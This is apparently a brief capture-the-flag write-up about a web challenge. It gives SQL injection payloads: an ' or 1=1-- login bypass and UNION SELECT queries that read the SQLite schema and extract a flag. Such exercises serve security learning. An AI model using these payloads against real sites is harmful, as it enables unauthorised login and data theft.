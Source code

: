 
The first we see is a website with a login and given the name we can guess we need to sql inject to login 
u: x
p: `' or 1=1--`



' UNION SELECT sql, name, null FROM sqlite_master; -- 

' UNION SELECT flag, null, null from more_table;--